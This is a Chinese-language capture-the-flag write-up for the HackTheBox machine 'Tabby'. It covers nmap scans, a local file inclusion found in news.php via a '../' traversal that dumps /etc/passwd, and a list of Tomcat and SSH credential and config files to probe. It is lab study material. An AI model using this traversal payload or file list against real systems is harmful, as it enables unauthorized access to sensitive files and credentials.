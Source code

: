# 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责

# 服务探测
查看开启端口
```
┌──(root💀kali)-[~/htb/Tabby]
└─# nmap -p- 10.10.10.194 --open                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-30 04:22 EST
Nmap scan report for 10.10.10.194
Host is up (0.25s latency).
Not shown: 64733 closed ports, 799 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 249.82 seconds

```

端口详细信息
```
┌──(root💀kali)-[~/htb/Tabby]
└─# nmap -sV -T4  -A -O 10.10.10.194 -p 22,80,8080                                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-30 04:33 EST
Nmap scan report for 10.10.10.194
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   292.67 ms 10.10.14.1
2   293.43 ms 10.10.10.194

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.08 seconds

```

有两个http服务,80是apache，8080是tomcat

## 80端口

80端口打开以后，在```NEWS```栏发现导航到了```http://megahosting.htb/news.php?file=statement"```

把```megahosting.htb```添加到本地host文件

```echo "10.10.10.194 megahosting.htb" >> /etc/hosts```

```NEWS```网页显示:
> We apologise to all our customers for the previous data breach.
> We have changed the site to remove this tool, and have invested heavily in more secure servers

曾经发生过信息泄露，哦？

留意到url里file这个参数，貌似是一个文件名，输入```http://megahosting.htb/news.php?file=../../../../../etc/passwd```

成功回显靶机```/etc/passwd```内容，证明存在LFI

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting 
System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin 
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin 
syslog:x:104:110::/home/syslog:/usr/sbin/nologin 
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin 
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false 
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin 
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin 
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:110:1::/var/cache/pollinate:/bin/false 
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin 
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false 
tomcat:x:997:997::/opt/tomcat:/bin/false 
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false 
ash:x:1000:1000:clive:/home/ash:/bin/bash 
```

存在一个普通用户```ash```

对于不存在，或者没有权限的文件，页面不会有任何返回。

## 8080端口服务

```http://10.10.10.194:8080/docs/```显示tomcat版本是```Version 9.0.31```

在8080端口首页，暴露出来网页根目录的路径:```/var/lib/tomcat9/webapps/ROOT/```

显示管理用户配置文件在```/etc/tomcat9/tomcat-users.xml```,但是无法显示


etc/ssh/sshd_config

/var/lib/tomcat9/webapps/ROOT/manager/html

/etc/tomcat9/conf/tomcat-users.xml

conf/tomcat-users.xml

/home/ash/.ssh/authorized_keys2

/etc/ssh/ssh_config.d/ash.conf